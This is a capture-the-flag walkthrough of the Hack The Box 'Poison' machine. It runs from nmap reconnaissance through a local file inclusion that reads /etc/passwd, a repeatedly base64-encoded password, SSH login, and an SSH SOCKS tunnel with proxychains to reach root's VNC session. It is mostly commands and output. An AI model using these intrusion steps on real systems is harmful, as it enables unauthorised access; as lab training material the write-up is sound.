



|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Medium |  | 10.10.10.84 |  | [Poison](https://app.hackthebox.com/machines/poison) |  |

---

## Reconnaissance

### Nmap Scan
The initial reconnaissance began with an Nmap scan to identify open ports and services:

```
nmap -T4 -p- -sC -sV 10.10.10.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 20:53 EST
Nmap scan report for 10.10.10.84
Host is up (0.070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 396.11 seconds
```

**Results:**
+ **Port 22 (SSH):** OpenSSH 7.2 (FreeBSD 20161230)
+ **Port 80 (HTTP):** Apache web server

### Web Enumeration
The website at `http://10.10.10.84` displayed a simple page with a form to test local `.php` scripts:



A form was present to submit a script name:

```
...[snip]...
<form action="/browse.php" method="GET">
	Scriptname: <input type="text" name="file"><br>
	<input type="submit" value="Submit">
</form>
```

The `listfiles.php` script listed the contents of the web directory, including `pwdbackup.txt`:



### Password Extraction
Accessing `pwdbackup.txt` revealed a base64-encoded password:

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. 
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU 
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS 
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW 
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs 
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy 
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G 
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw 
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa 
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k 
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk 
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT 
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz 
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW 
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO 
Ukd4RVdub3dPVU5uUFQwSwo= 
```

### Decoding the Password
The password was encoded 13 times using base64. A Python script was used to decode it:

```
import base64

enc = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU..."

for _ in range(13):
    enc = base64.b64decode(enc).decode("utf-8")

print(enc)
```

The decoded password is `Charix!2#4%6&8(0`.

### Local File Inclusion (LFI)
Injecting PHP scripts into the input field successfully executes them. However, a noticeable Local File Inclusion (LFI) vulnerability exists, allowing any site visitor to retrieve arbitrary files from the server. For example, accessing the following URL exposes the system's password file:

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Further enumeration using `gobuster` did not identify additional unknown files:

```
gobuster dir -u 10.10.10.84 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -x php
```

## Initial Access

### SSH as charix
Using the decoded password, we successfully logged in via SSH as the user `charix`:

```
ssh charix@10.10.10.84             
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to remove all those ^M characters from a DOS file? Try

        tr -d \\r < dosfile > newfile
                -- Originally by Dru <genesis@istar.ca>
charix@Poison:~ % 
```

At this point, we can retrieve the user flag from the system. 
```
eaacdfb2...
```

## Privilege Escalation
Alongside `user.txt` is another file named `secret.zip` that contains a single file. 

```
unzip -l secret.zip
Archive:  secret.zip
  Length     Date   Time    Name
 --------    ----   ----    ----
        8  01-24-18 19:01   secret
```

Extracting `secret.zip` requires a password, confirming it is encrypted.:

```
unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

We download the file to our local machine and attempt to extract it using the known password. The extraction is successful.

```
scp charix@10.10.10.84:secret.zip .
unzip secret.zip

file secret       
secret: Non-ISO extended-ASCII text, with no line terminators
                                                                                         
hexdump -C secret                                          
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
00000008
```

This file might be useless contrary to its filename.

## VNC

### Server Discovery
Running `netstat` revealed a VNC server listening on `127.0.0.1:5901`:
> **_NOTE:_** Virtual Network Computing (VNC) is a cross-platform screen sharing system that was created to remotely control another computer. 

```
netstat -an -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.10.10.84.22         10.10.14.17.40174      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

Further investigation with `ps` confirmed the VNC server was running as root:

```
charix@Poison:~ % ps -auwwx | grep vnc
root    529   0.0  0.7  23620 6636 v0- I    Thu02      0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

`ps -auwwx`:
+ `ps`: Lists running processes.
+ `-a`: Shows processes for all users.
+ `-u`: Displays detailed information about each process (e.g., user, CPU usage, memory usage).
+ `-ww`: Ensures the full command line is displayed (no truncation).
+ `-x`: Includes processes not attached to a terminal (e.g., background processes like VNC servers).

Process Details:
+ `Xvnc :1`: The VNC server is running on display :1 (typically corresponds to port 5901).
+ `-rfbport 5901`: The VNC server is listening on port 5901.
+ `-localhost`: The VNC server is only accepting connections from the local machine (for security).

### Accessing VNC
To access the VNC server, we used SSH tunneling and `proxychains`:
> **_NOTE:_** Socks5 is configured for flexible tunneling, allowing us to route VNC traffic securely over SSH.

```
ssh charix@10.10.10.84 -D 8081
```

Edited `/etc/proxychains4.conf` to include:

```
tail /etc/proxychains4.conf 
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 8081
```
```
proxychains vncviewer 127.0.0.1:5901 -passwd secret
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:8081  ...  127.0.0.1:5901  ...  OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```
